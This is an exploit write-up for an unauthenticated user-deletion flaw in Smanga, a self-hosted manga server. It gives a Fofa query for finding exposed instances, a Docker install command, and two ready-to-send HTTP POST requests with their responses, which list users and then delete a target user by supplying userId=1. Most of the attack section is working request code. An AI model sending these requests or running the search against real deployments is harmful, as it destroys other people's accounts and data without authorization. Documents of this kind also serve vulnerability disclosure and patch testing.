 #### Unauthorized Deletion of Users

**Exploit Title:** Smanga MediaId Unauthorized Deletion of Users  
**Date:** 2024-04-01  
**Exploit Author:** Shuo Sheng, Jixin Zhang  

##### Description:

Smanga allows unauthorized deletion of any user through its `mediaId`.

##### Fofa Query:

```
title="smanga"
```

##### Installation via Docker:

```dockerfile
docker run -itd --name smanga \
-p 3333:3306 \
-p 9797:80 \
-v /mnt:/mnt \
-v /route/smanga:/data \
lkw199711/smanga;
```

##### Proof of Concept (PoC):

To successfully exploit this vulnerability, you must include `userId=1`.

**Step 1: Fetch User List**

```http
POST /php/public/index.php/user/get HTTP/1.1
Host: 192.168.196.128:9797
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 29
Origin: http://192.168.196.128:9797
Connection: keep-alive
Referer: http://192.168.196.128:9797/

page=1&pageSize=10&userId=1
```

**Response:**

```json
{
  "list": [
    {
      "registerTime": "2025-01-03 10:01:28",
      "nickName": null,
      "mediaLimit": null,
      "editMedia": 1,
      "editUser": 1,
      "updateTime": "2025-01-03 10:01:28",
      "userName": "sanbaosanbao",
      "userId": 12 // This userid is the targetUserId to be deleted
    }
  ]
}
```

**Step 2: Delete Target User**

```http
POST /php/public/index.php/user/delete HTTP/1.1
Host: 192.168.196.128:9797
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 88
Origin: http://192.168.196.128:9797
Connection: keep-alive
Referer: http://192.168.196.128:9797/

targetUserId=12&userId=1
```

**Response:**

```json
{
  "status": "success",
  "message": "user delete success"
}
```

#### 